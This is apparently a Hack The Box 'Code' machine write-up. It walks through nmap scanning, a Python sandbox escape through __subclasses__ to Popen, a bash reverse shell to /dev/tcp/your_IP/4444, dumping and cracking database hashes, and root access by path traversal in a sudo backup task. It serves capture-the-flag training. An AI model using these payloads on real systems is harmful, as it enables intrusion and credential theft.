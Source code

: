 # Write Up for The HTB Code Box

## Enumeration

Launching into the Box my IP was `10.10.11.62`

Using Nmap I will Scan the Ip for open Ports `nmap -sC -sV -T4 <ip>`

<img width="823" height="302" alt="codenmap" src="https://github.com/user-attachments/assets/36c801b6-5cd0-44a4-bd8c-43fda50e19ad" />

Http webside on port 5000. Looking at the website it sanitises the inputs you give it.

# Exploitation

On a meduim Writeup I saw you can display exceptions! So i try `print((()).__class__.__bases__[0].__subclasses__())` I see alot of classes and need the Popen one to spawn a shell. 

I used microsoft word as a find tool and got `raise Exception((()).__class__.__bases__[0].__subclasses__()[317].__name__)` perfect!

<img width="973" height="61" alt="popen" src="https://github.com/user-attachments/assets/426198a4-6ba7-4839-a9f2-eb5ec728126d" />

Write a shell to get in `raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317]("bash -c 'bash -i >& /dev/tcp/your_IP/4444 0>&1'", shell=True, stdout=-1).communicate()))`

After that got my shell as app-prodution. Looking for files to write to I find a data base .db hmmm `cd instance sqlite3 database.db.tables SELECT * FROM USER;`

<img width="469" height="156" alt="sqlicode" src="https://github.com/user-attachments/assets/e29e2a98-e7c3-46bf-9bb5-5260357dd3df" />

I used Crackstation to then find martians password and logged in via ssh 

# Root Flag

Next I used `sudo -l` to see any commands that can be run 

<img width="793" height="141" alt="sudocode" src="https://github.com/user-attachments/assets/7b23ef0a-2501-4617-9c41-9ec17b2e8f1d" />

Looking into the file its a backup file that uses task.json which just backups any directory

I tried to get it to back up the root directoy but that failed so I looked up directory traversial methods and got my answer.

I modified the task.json file and ran it

<img width="610" height="194" alt="task" src="https://github.com/user-attachments/assets/b2fbca72-f321-4e22-a135-441d99263b05" />

<img width="803" height="75" alt="rootflagcode" src="https://github.com/user-attachments/assets/4ac8c299-2cee-4eff-bc1e-59b0962e009f" />

Unzip the folder and go into the root and the `root.txt` flag is there
